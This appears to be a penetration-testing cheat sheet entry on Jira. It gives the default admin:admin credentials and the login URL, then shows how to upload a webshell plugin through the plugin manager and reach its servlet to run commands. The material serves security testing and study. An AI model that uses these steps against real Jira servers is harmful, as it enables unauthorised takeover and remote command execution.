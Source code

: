 # Web applications - CMS - Jira

### Login prompt & default credentials

Access the logon prompt at and try the default SDK credentials `admin:admin`

```
<http | https>://<HOST | IP>/login.jsp
```

### Administrator interface to RCE

Upload the `atlassian-webshell-plugin\atlplug.jar` through the admin web
interface:

```
<http | https>://<HOST | IP>/plugins/servlet/upm
```

Then start and access it to execute command:

```
<http | https>://<HOST | IP>/plugins/servlet/com.jsos.shell/ShellServlet
```

